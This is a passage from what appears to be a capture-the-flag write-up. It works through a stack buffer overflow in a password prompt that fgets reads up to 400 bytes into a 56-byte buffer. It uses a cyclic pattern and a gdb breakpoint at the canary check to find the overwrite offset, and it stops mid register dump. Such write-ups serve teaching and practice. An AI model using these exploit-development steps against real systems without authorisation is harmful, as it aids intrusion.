 #### Getting BOF Offset

Next I’ll get the offset of the overflow to overwrite RIP. The `entered_password` buffer is 56 bytes long, but it’s read into unsafely up to 400 bytes:

```

fgets(entered_password,400,(FILE *)stdin);

```

I’ll create a pattern:

```

oxdf@hacky$ pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

```

I’ll set a break point at the place where the canary is checked:

```

gdb-peda$ disassemble main
...[snip]...
   0x0000000000402323 <+310>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000402327 <+314>:   xor    rcx,QWORD PTR fs:0x28
   0x0000000000402330 <+323>:   je     0x402337 <main+330>
   0x0000000000402332 <+325>:   call   0x456d30 <__stack_chk_fail_local>
   0x0000000000402337 <+330>:   leave  
   0x0000000000402338 <+331>:   ret
gdb-peda$ b *main+314
Breakpoint 1 at 0x402327

```

I’ll run, entering whatever for the username and the pattern for the password. When it hits the break point, I can see it’s just loaded the canary off the stack into RCX:

```

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x400518 --> 0x0 
RCX: 0x4130634139624138 ('8Ab9Ac0A')
RDX: 0x0 
RSI: 0x4c8bd0 ("Invalid username or password.\nthe development phase...please report any issue to the development team[!]\n")
RDI: 0x4c5ea0 --> 0x0 
RBP: 0x7fffffffdad0 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
RSP: 0x7fffffffda80 --> 0x66647830 ('0xdf')
RIP: 0x402327 (<main+314>:      xor    rcx,QWORD PTR fs:0x28)
R8 : 0x1e 
R9 : 0x0 
R10: 0x7fffffffda80 --> 0x66647830 ('0xdf')
R11: 0x246 
R12: 0x4033c0 (<__libc_csu_fini>:       endbr64)
R13: 0x0 
R14: 0x4c3018 --> 0x448810 (<__strcpy_avx2>:    endbr64)
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402319 <main+300>: call   0x419ca0 <puts>
   0x40231e <main+305>: mov    eax,0x0
```